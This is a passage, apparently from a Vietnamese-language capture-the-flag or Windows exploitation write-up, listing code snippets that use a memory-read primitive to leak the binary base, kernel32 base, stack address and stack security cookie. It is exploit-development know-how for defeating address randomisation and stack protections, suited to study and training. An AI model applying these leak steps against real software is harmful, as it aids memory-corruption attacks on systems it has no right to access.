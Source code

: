 Nó xấp xỉ nhau :v tìm xung quanh cái offset này là ra. Hope so 🤣🤣🤣   

### Binary Base Address  

```python
immol = pebldr + 0x20
ldrdata = readmem(immol)
bin_entry = readmem(ldrdata + 0x20)
```
Tìm địa chỉ pebldr như sau :   

![](../img/dbdbdb-13.png)   

### Kernel32 address  

Đọc IAT table để lấy địa chỉ một hàm trong thư viện này rồi trừ đi offset.  
```c
iat = bin_base + 0x3000
readfile = readmem(iat)
kernel32 = readfile - readfile_offset 
```

### Stack address 

Đọc từ TEB.  

```python
teb = peb + 0x1000 
stack = readmem(teb + 0x10) 
```

### Security Cookie  

```python
cookie = readmem(bin_base + 0x5008)
```  

![](../img/dbdbdb-14.png)  
